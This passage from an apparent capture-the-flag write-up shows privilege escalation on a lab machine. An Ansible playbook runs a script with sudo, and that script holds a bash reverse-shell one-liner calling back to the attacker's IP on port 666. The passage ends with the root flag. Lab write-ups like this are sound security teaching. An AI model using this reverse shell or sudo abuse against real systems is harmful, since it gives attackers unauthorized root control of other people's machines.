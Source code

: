 ```yml
- hosts: localhost
  tasks:
    - name: RShell
      command: sudo bash /tmp/root.sh
```

Then I create the `root.sh`:

```shell
echo '/bin/bash -i >& /dev/tcp/10.10.14.36/666 0>&1' > /tmp/root.sh
```

Then execute ansible:

```shell
ansible
```

![](Pasted%20image%2020250530192649.png)

### Root flag

![](Pasted%20image%2020250530192744.png)

==Machine pwned!==